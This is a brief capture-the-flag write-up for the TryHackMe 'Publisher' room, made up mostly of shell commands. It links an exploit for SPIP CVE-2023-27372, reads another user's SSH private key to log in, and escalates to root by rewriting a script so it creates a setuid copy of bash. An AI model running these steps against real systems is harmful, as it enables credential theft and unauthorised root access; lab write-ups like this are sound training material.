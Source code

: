 
# Publisher
https://tryhackme.com/room/publisher

## solution
### foothold
exploit an SPIP vulnerability - https://github.com/nuts7/CVE-2023-27372

### user
```sh
cat /home/think/.ssh/id_rsa
```
```sh
echo '<privatekey>' > id_rsa
chmod 600 id_rsa
ssh-keygen -y -f think_id_rsa > think_id_rsa.pub
ssh -i id_rsa think@ip
cat /home/think/user.txt
```

### root
```sh
cd /dev/shm
cp /bin/bash .
./bash -p
```

/opt/run_container.sh
```
#!/bin/bash

cp /bin/bash /tmp/default
chmod +s /tmp/default
```

```
./tmp/default -p
cat /root/root.txt
```
